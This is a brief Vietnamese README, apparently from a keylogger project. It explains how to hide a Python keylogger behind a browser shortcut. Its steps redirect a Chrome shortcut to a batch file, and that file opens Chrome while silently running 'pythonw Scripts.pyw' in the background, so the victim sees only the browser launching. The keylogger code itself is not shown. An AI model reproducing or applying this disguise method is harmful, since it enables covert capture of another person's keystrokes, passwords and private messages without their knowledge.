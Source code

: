 1. Tạo một phím tắt của Google Chrome hoặc bất kì trình duyệt nào

2. Thay đổi Target của phím tắt vừa tạo thành địa chỉ của nơi file "keylogger.bat" được lưu trữ
    Eg: C:\Users\<Username>\Desktop\Python\Keylogger\keylogger.bat

3. Vào file "keylogger.bat" dán đoạn mã sau:
    start "" "C:\Program Files\Google\Chrome\Application\chrome.exe"
    cd/
    cd C:\Users\<Username>\Desktop\Python\Keylogger
    pythonw Scripts.pyw
    start "" "C:\Users\<Username>\Desktop\Python\Keylogger\pythonw Scripts.pyw"



<!-- ẤN F12 ĐỂ KẾT THỨC CHƯƠNG TRÌNH -->

... luoi viet quaa